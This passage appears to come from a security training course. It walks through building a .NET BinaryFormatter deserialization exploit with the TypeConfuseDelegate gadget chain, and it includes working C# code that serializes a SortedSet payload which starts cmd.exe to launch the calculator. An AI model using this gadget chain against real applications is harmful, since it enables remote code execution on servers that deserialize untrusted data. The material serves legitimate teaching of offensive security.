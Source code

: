 So we know that the use of `BinaryFormatter` to deserialize user input is insecure. With this in mind, let's create a new project in `Visual Studio` and get to work developing an exploit that will work against it.

![image](https://academy.hackthebox.com/storage/modules/240/3/48.png)

Unfortunately, our `ObjectDataProvider` gadget will not work this time. We can attempt to copy the gadget code and add the following lines to `serialize` the object and output the results as a `base64`-encoded string:

```csharp
MemoryStream ms = new MemoryStream();
BinaryFormatter bf = new BinaryFormatter();
bf.Serialize(ms, odp);
Console.WriteLine(Convert.ToBase64String(ms.ToArray()));

```

However, running this code will result in an exception being thrown because `ObjectDataProvider` is not marked as a serializable class.

![image](https://academy.hackthebox.com/storage/modules/240/3/49.png)

Instead of tackling the exception, let's just put the `TypeConfuseDelegate` gadget we discussed in the previous section to use!

```csharp
// TypeConfuseDelegate gadget
Delegate stringCompare = new Comparison<string>(string.Compare);
Comparison<string> multicastDelegate = (Comparison<string>)MulticastDelegate.Combine(stringCompare, stringCompare);
IComparer<string> comparisonComparer = Comparer<string>.Create(multicastDelegate);

FieldInfo fi = typeof(MulticastDelegate).GetField("_invocationList", BindingFlags.NonPublic | BindingFlags.Instance);
object[] invoke_list = multicastDelegate.GetInvocationList();
invoke_list[1] = new Func<string, string, Process>(Process.Start);
fi.SetValue(multicastDelegate, invoke_list);

SortedSet<string> sortedSet = new SortedSet<string>(comparisonComparer);
sortedSet.Add("/c calc");
sortedSet.Add("C:\\Windows\\System32\\cmd.exe");

// Serialize with BinaryFormatter (to base64 string)
MemoryStream ms = new MemoryStream();
BinaryFormatter bf = new BinaryFormatter();
bf.Serialize(ms, sortedSet);
Console.WriteLine(Convert.ToBase64String(ms.ToArray()));

```

This time, when we run the program we see the calculator spawn and a `base64`-encoded string written to the console. This is the `SortedSet` which we serialized with `BinaryFormatter`.

![image](https://academy.hackthebox.com/storage/modules/240/3/50.png)
